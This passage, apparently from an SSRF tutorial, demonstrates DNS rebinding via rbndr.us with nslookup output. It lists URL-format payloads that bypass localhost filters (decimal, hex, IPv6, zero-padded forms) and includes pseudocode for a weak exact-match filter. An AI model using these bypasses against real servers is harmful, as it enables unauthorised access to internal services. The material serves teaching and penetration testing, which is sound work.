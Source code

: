 
```
> nslookup 08080808.7f000001.rbndr.us
Non-authoritative answer:
Name:    08080808.7f000001.rbndr.us
Address:  8.8.8.8

> nslookup 08080808.7f000001.rbndr.us
Name:    08080808.7f000001.rbndr.us
Address:  127.0.0.1

> nslookup 08080808.7f000001.rbndr.us
Name:    08080808.7f000001.rbndr.us
Address:  127.0.0.1

> nslookup 08080808.7f000001.rbndr.us
Name:    08080808.7f000001.rbndr.us
Address:  8.8.8.8
```

So as we can see here, we've firstly got `8.8.8.8`, then `127.0.0.1` twice, and then again `8.8.8.8`. So this confirms it indeed works and now the only thing we need to do, is to try it against the "vulnerable" application and see if it works! (Make sure to spam the HTTP request, one request is not enough)


##### 2) URL format bypass
Even if SSRF check is in place, it can be coded poorly, which can easily lead to bypass. One of the most common bypasses are URL format bypasses, where we simply try to change the IP to a "different", but actually the same IP. 

**INFO**: Lot of people think that localhost is only `127.0.0.1`, which is false. Localhost is actually `127.x.x.x`

So let's have a look at some bypasses for `127.0.0.1`:
```
127.x.x.x #CIDR bypass
http://127.1
http://[::] #IPv6
http://2130706433/ #Decimal bypass (translates to 127.0.0.1)
http://0x7f000001/ #Hexadecimal bypass (translates to 127.0.0.1)
127.000000000000.1 #Add whatever number of zeros.
```
I could continue, but it will be better if I share a resource, where you can see more : <a href="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass">HackTricks</a>

**Domain bypass example**
Let's suppose we have an application, where `localhost` is blocked, but it is done via insecure way :

```js
if url isExactly("localhost") {
	write("Go away!")
	//report to the police
} else {
	write("Here are files : ")
}
```
This really wonderful pseudocode shows the interesting `isExactly`, which basically tells us that only the `localhost` is blocked, but will `randomlocalhost` be blocked? Nope. Bypassed.
